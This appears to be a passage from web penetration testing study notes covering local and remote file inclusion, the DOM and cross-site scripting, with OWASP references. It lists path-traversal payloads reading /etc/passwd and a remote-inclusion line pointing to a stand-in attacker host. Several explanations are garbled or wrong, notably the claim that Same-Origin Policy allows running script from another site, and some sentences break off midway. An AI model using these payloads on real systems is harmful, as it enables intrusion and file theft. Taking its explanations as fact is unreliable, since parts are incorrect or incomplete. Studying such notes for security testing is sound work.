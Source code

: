 .php?file=../../../../etc/passwd
.php?file=../../../../etc/hosts

/usr/share/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt

Reference: [WSTG-INPV-11 - Testing for Local File Inclusion](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11-Testing_for_Code_Injection.html)

###### Testing for Remote File Inclusion

Remote File Inclusion (also known as RFI) is the process of including remote files through the exploiting of vulnerable inclusion procedures implemented in the application.

.php?file=http://attacker_site/malicous_page

Reference: [WSTG-INPV-11 - Testing for Remote File Inclusion](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.2-Testing_for_Remote_File_Inclusion.html)

###### *If you don't know, now you know: [Document Object Model]()*

Document Object Model is a cross-platform and language-independent interface that treats an XML or HTML document as a tree structure wherein each node is an object representing a part of the document.
Every item of the tree is called a node and nodes have parent/child relationships.

This allows us to manipulate what is in our HTML or XML documents with JavaScript.

In order to use JavaScript against the DOM we need to use the **document** object and its methods.

Document is an object type, so it has methods and variables:

- Method **write()**
- Method **referrer()**
- Variable **cookie**

###### *If you don't know, now you know: [Same-Origin Policy](https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy)*

Same Origin Policy allow us to use javascript from another site.
That's the reason it is called a cross-site scripting

We will run in the context of 

For instance, being able to inject the following in a page is not a cross-site scripting, is not **really** cross-site scripting, has the goal is of this attack is not 

```html
<script>alert(42);</script>
```

The goal of a cross-site scripting 

injected into otherwise benign and trusted websites

##### Testing for Command Injection
